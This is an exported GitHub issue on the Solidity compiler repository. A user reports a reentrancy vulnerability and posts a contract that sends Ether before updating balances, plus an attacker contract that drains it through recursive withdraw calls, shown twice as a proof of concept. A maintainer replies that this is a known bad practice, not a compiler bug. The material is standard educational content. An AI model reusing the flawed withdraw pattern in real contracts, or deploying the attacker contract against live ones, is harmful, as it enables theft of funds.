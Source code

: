 # [\#14618 Issue](https://github.com/ethereum/solidity/issues/14618) `closed`: Re entrancy Attack Vuln
**Labels**: `bug :bug:`


#### <img src="https://avatars.githubusercontent.com/u/86472964?u=dc1d9db26d9bac6184201817380eacdfb237a3dc&v=4" width="50">[SleepTheGod](https://github.com/SleepTheGod) opened issue at [2023-10-15 04:39](https://github.com/ethereum/solidity/issues/14618):

This code consists of two Solidity contracts: VulnerableContract and AttackerContract. Let's break down what each contract does:

VulnerableContract:
```solidity
contract VulnerableContract {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public {
        require(balances[msg.sender] >= _amount, "Insufficient funds");
        (bool success, ) = msg.sender.call{value: _amount}("");
        require(success, "Transfer failed");
        balances[msg.sender] -= _amount;
    }
}
```

VulnerableContract is a contract that maintains a mapping of addresses to balances. It has two main functions:

deposit(): This function allows anyone to send Ether to the contract. The Ether sent is added to the balance of the sender's address (msg.sender).

withdraw(uint _amount): This function allows a user to withdraw a specified amount of Ether. It first checks if the user has sufficient funds, and if so, attempts to send the Ether back to the user (msg.sender). If the transfer is successful, it updates the balance accordingly.

AttackerContract:
```solidity
contract AttackerContract {
    VulnerableContract public vulnerableContract;

    constructor(address _vulnerableContractAddress) {
        vulnerableContract = VulnerableContract(_vulnerableContractAddress);
    }

    function attack() public payable {
        vulnerableContract.deposit{value: msg.value}();
        vulnerableContract.withdraw(msg.value);
    }

    receive() external payable {
        if (address(vulnerableContract).balance >= msg.value) {
            vulnerableContract.withdraw(msg.value);
        }
    }

    function getBalance() public view returns(uint) {
        return address(this).balance;
    }

    function withdrawFunds() public {
        (bool success, ) = msg.sender.call{value: address(this).balance}("");
        require(success, "Transfer failed");
    }
}
```
AttackerContract is a contract designed to exploit the vulnerabilities in VulnerableContract.

In the constructor, it takes the address of an existing VulnerableContract as an argument and initializes a VulnerableContract instance.

attack(): This function simulates an attack. It first deposits an amount of Ether (msg.value) into the vulnerable contract and then immediately tries to withdraw the same amount. This sequence of actions is intended to exploit the reentrancy vulnerability.

receive(): This function is a special function that is called whenever the contract receives Ether. It checks if the balance of the vulnerableContract is greater than or equal to the amount of Ether received (msg.value). If so, it attempts to withdraw the Ether from the vulnerableContract.

getBalance(): This function returns the balance of the AttackerContract.

withdrawFunds(): This function allows the owner of the AttackerContract to withdraw any Ether held by the contract.

Summary:
The VulnerableContract has a vulnerability related to reentrancy in the withdraw function. The AttackerContract is designed to take advantage of this vulnerability by depositing Ether and then repeatedly calling withdraw in a way that allows it to repeatedly re-enter the withdraw function before the balance is updated. This can potentially lead to an unintended transfer of funds.



PoC Below:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract VulnerableContract {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public {
        require(balances[msg.sender] >= _amount, "Insufficient funds");
        (bool success, ) = msg.sender.call{value: _amount}("");
        require(success, "Transfer failed");
        balances[msg.sender] -= _amount;
    }
}

contract AttackerContract {
    VulnerableContract public vulnerableContract;

    constructor(address _vulnerableContractAddress) {
        vulnerableContract = VulnerableContract(_vulnerableContractAddress);
    }

    function attack() public payable {
        vulnerableContract.deposit{value: msg.value}();
        vulnerableContract.withdraw(msg.value);
    }

    receive() external payable {
        if (address(vulnerableContract).balance >= msg.value) {
            vulnerableContract.withdraw(msg.value);
        }
    }

    function getBalance() public view returns(uint) {
        return address(this).balance;
    }

    function withdrawFunds() public {
        (bool success, ) = msg.sender.call{value: address(this).balance}("");
        require(success, "Transfer failed");
    }
}
```


#### <img src="https://avatars.githubusercontent.com/u/457348?u=e02c93e6d98c1154952140a8d5af50d9d5ca59c9&v=4" width="50">[r0qs](https://github.com/r0qs) commented at [2023-10-16 10:53](https://github.com/ethereum/solidity/issues/14618#issuecomment-1764215300):

Hi @SleepTheGod this is not a compiler issue but a well-know bad practice that you should avoid. Please see: https://docs.soliditylang.org/en/latest/security-considerations.html#reentrancy to learn how to avoid such pattern.


-------------------------------------------------------------------------------



[Export of Github issue for [ethereum/solidity](https://github.com/ethereum/solidity). Generated on 2024.12.15 at 06:45:24.]
